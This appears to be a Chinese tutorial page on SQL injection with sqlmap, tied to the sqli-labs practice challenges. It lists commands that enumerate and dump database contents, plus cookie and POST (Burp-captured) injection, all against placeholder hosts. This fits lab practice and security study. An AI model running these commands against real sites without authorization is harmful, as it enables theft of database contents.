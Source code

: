     *   Less-40
    *   Less-41
    *   less-42
    *   Less-43
    *   Less-44
    *   Less-45
*   order by 注入
*   *   Less-46
    *   Less-47
    *   Less-48
    *   Less-49
    *   Less-50
    *   Less-51
    *   Less-52
    *   Less-53
*   challenge
*   *   less-54

* * *

## sqlmap的使用和常用命令：

使用technique参数可以指定使用什么技术探测，默认是所有技术。-
B-布尔，T-时间，s-堆叠查询，u-union探测，E-基于报错的

## 1#、注入六连：

1.  sqlmap -u “http://www.xx.com?id=x” 【查询是否存在注入点
    
2.      --dbs         【检测站点包含哪些数据库
        
              
3.      --current-db    【获取当前的数据库名
        
              
4.      --tables -D "db_name"  【获取指定数据库中的表名 -D后接指定的数据库名称
        
              
5.      --columns  -T "table_name" -D "db_name"  【获取数据库表中的字段
        
              
6.      --dump -C "columns_name" -T "table_name" -D "db_name"  【获取字段的数据内容
        
              

## 2#、COOKIE注入：

sqlmap -u “http://www.xx.com?id=x” --cookie “cookie” --level 2 【cookie注入 后接cookie值

## 3#、POST注入：

（1）目标地址http:// www.xxx.com /login.asp-
（2）打开brup代理。-
（3）点击表单提交-
（4）burp获取拦截信息（post）-
（5）右键保存文件（.txt）到指定目录下-
（6）运行sqlmap并执行如下命令：-
用例：sqlmap -r okay.txt -p username
